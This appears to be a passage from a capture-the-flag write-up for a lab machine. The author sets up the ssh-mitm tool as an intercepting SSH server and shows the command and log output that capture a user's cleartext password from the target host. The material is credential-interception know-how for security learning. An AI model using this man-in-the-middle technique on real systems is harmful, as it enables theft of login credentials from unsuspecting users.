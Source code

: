 <figure><img src="../../.gitbook/assets/image (1904).png" alt=""><figcaption></figcaption></figure>

Anyways, after filling in the fields and clicking submit, we get this weird thing on a listener port:

<figure><img src="../../.gitbook/assets/image (3315).png" alt=""><figcaption></figcaption></figure>

I thought that it would be a shell and hence ran `id`, but it quickly closed. In this case, I took a look at the traffic within `wireshark` but wasn't able to find out much. I tried out a few methods from the SSH page of Hacktricks, and found `ssh-mitm`.&#x20;

This was a program that would intercept SSH traffic and find a password, similar to what `responder` does.&#x20;

{% embed url="https://docs.ssh-mitm.at/" %}

I couldn't get the `ssh-mitm` binary to work properly, but thankfully there's a Python module for it. We can run it, then we can view the logs:

```
$ python3 -m sshmitm server --remote-host 10.129.85.79 --listen-port 2222
───────────────────────────── SSH-MITM - ssh audits made simple ─────────────────────────────
Version: 3.0.2
License: GNU General Public License v3.0
Documentation: https://docs.ssh-mitm.at
Issues: https://github.com/ssh-mitm/ssh-mitm/issues
─────────────────────────────────────────────────────────────────────────────────────────────
generated temporary RSAKey key with 2048 bit length and fingerprints:
   MD5:10:a0:ac:54:66:eb:ca:14:62:88:fe:d0:3c:c0:68:f0
   SHA256:IQjHvAVwgc+rsZSuahdUQKTfdba5dqKxLpRd39PNNhA
   SHA512:beq/m46uHTY42gBA5u7lFh0alXfK4hc68WMJNvDpEMVl8TeOGQHU89NuGDTwL466Ja//FKDF1/HQMnJBS3mA6w                                                                                          
listen interfaces 0.0.0.0 and :: on port 2222
────────────────────────────────── waiting for connections ──────────────────────────────────
[05/09/23 09:40:06] INFO     ℹ session 9a94617f-be69-49bf-90fd-765beb3fbeee   
                             created                                                         
                    INFO     ℹ client information:                             
                               - client version: ssh-2.0-paramiko_3.1.0        
                               - product name: Paramiko                                      
                               - vendor url:  https://www.paramiko.org/                      
                             ⚠ client audit tests:                                
                               * client uses same server_host_key_algorithms list for        
                             unknown and known hosts                                         
                               * Preferred server host key algorithm: ssh-ed25519            
[05/09/23 09:40:08] INFO     Remote authentication succeeded                   
                                     Remote Address: 10.129.85.79:22                         
                                     Username: cbrown                                        
                                     Password: sn00pedcr3dential!!!                          
                                     Agent: no agent
```